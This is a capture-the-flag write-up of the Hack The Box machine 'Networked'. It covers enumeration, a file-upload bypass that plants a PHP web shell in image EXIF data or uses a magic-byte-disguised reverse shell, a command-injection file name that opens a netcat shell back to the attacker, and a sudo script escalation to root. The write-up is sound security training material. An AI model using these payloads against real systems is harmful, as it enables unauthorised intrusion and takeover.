 ```yaml
---
layout: writeup
show-avatar: false
redirect_from: /walkthroughs/networked.html
title: Networked
logo: /assets/img/writeups/htb/boxes/networked/networked_logo.png
platform: HTB
category: Boxes
OS: Linux
difficulty: Easy
release: "24 Aug 2019"
creator_name: "guly"
creator_url: "https://app.hackthebox.com/users/8292"
published: "2019-11-01"
---
```


<h2 align="center">Enumeration</h2>
Starting with standard nmap scan...

```s
# Nmap 7.80 scan initiated Thu Oct 31 14:15:09 2019 as: nmap -sC -sV -p- -oN nmapscan.txt 10.10.10.146
Nmap scan report for 10.10.10.146
Host is up (0.098s latency).
Not shown: 65532 filtered ports
PORT    STATE  SERVICE VERSION
22/tcp  open   ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 22:75:d7:a7:4f:81:a7:af:52:66:e5:27:44:b1:01:5b (RSA)
|   256 2d:63:28:fc:a2:99:c7:d4:35:b9:45:9a:4b:38:f9:c8 (ECDSA)
|_  256 73:cd:a0:5b:84:10:7d:a7:1c:7c:61:1d:f5:54:cf:c4 (ED25519)
80/tcp  open   http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
443/tcp closed https

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Oct 31 14:18:04 2019 -- 1 IP address (1 host up) scanned in 175.03 seconds

```

Seeing port 80, we navigate to the webpage and see nothing of interest, however checking the page source shows us an interesting comment

```html
<html>
<body>
Hello mate, we're building the new FaceMash!</br>
Help by funding us and be the new Tyler&Cameron!</br>
Join us at the pool party this Sat to get a glimpse
<!-- upload and gallery not yet linked -->
</body>
</html>
```

So we know there is more to find. However we should be directory busting anyway, so this doesn't offer much.

Running 

```sh
gobuster dir -w <wordlist> -x .php,.txt -o <outputfile> -u http://10.10.10.146
```

with the appropriate wordlist yielded the following results

```sh
/uploads (Status: 301)
/photos.php (Status: 200)
/index.php (Status: 200)
/upload.php (Status: 200)
/lib.php (Status: 200)
/backup (Status: 301)

```

If we navigate to /backup we see

![backup](/assets/img/writeups/htb/boxes/networked/networked_backup_page.png)

Downloading and extracting the tar file we find its the source files for the .php pages we found. 


![Source](/assets/img/writeups/htb/boxes/networked/networked_source_files.png)

Analyzing the upload.php and lib.php files we see that there is some extension checking in place, as well as a mimetype check. These are in place to attempt to only allow us to upload an image file. There are two ways I found to bypass this.


<h3 align="center">Initial foothold</h3>
**Method 1:**



We can modify the exif data of an image to give us code execution using **exiftool** as follows

```sh
exiftool -DocumentName="<?php if(isset(\$_REQUEST['cmd'])){echo '<pre>';\$cmd = (\$_REQUEST['cmd']);system(\$cmd);echo '</pre>';} __halt_compiler();?>" hilbert.jpg 

```

then we rename the image file to hilbert.php.jpg and upload it and navigate to the image and check if we have code execution

![RCE](/assets/img/writeups/htb/boxes/networked/networked_exifdata_torce.png)

Bingo! We can now use wget to download a shell file to the server and then navigate to it to get a reverse shell.

**Method 2:**

This method is much easier. We simply take our favorite php reverse shell (I'm using one from pentestmonkey) and append 'magicbytes' to the start of the file. This makes the mimetype check php is using think it is an image file. 

![magicbytes](/assets/img/writeups/htb/boxes/networked/networked_magicbytes.png)

Again we rename the file with the extension .php.jpg and upload it. Then set up a netcat listener on whatever port you edited into the reverse shell, and navigate to the image file

![reverseurl](/assets/img/writeups/htb/boxes/networked/networked_reverse_url.png)

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 47636
Linux networked.htb 3.10.0-957.21.3.el7.x86_64 #1 SMP Tue Jun 18 16:35:19 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 21:52:12 up  3:22,  0 users,  load average: 0.00, 0.01, 0.05
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=48(apache) gid=48(apache) groups=48(apache)
sh: no job control in this shell
sh-4.2$ whoami
whoami
apache

```



<h3 align="center">Privilage Escalation</h3>
We have a shell but we are only user apache. Looking at the /etc/passwd file we see there is user named "guly". If we look in /home/guly we see two interesting files. 'crontab.guly' and 'check_attack.php'. Looking at the files we see that crontab.guly is set to run check_attack.php every 3 minutes. If we look at check_attack.php

```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```



We see that it basically looks at all the files in the uploads folder that we previously placed our disguised image file in, and deletes files that don't belong. If we look closely at the code, this line in particular stands out

```php
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
```

The value variable holds the name of a file and we can name it in such a way to execute code!

As user apache we have write access in that directory, so all we need to do is go to the directory and create the appropriate named file.

```sh
sh-4.2$ cd /var/www/html/uploads
sh-4.2$ touch ";nc 10.10.14.3 1235 -c bash"

```

Then we simply have to listen on the appropriate port and wait for the program to run and then...

```sh
root@kali:~/HTB/Boxes/Networked# nc -nlvp 1235
listening on [any] 1235 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.146] 57202
whoami
guly

```

Bingo! We can now cat the user.txt file.

<h3 align="center">On To Root</h3>
Running "sudo -l" we see

```sh
User guly may run the following commands on networked:
    (root) NOPASSWD: /usr/local/sbin/changename.sh

```

So we can run this changename.sh file as root without a password.

A bit of googling turns up this vulnerability

https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f

which tells us that due to some improper handling anything after an inputted space for the name field when running the script will be executed. So we can simply enter "bash" after the space like so

```sh
[guly@networked sbin]$ sudo ./changename.sh
interface NAME:
hilbert bash
interface PROXY_METHOD:
blah
interface BROWSER_ONLY:
blah
interface BOOTPROTO:
blah 
[root@networked network-scripts]# whoami
root

```

We now have access to the root flag.
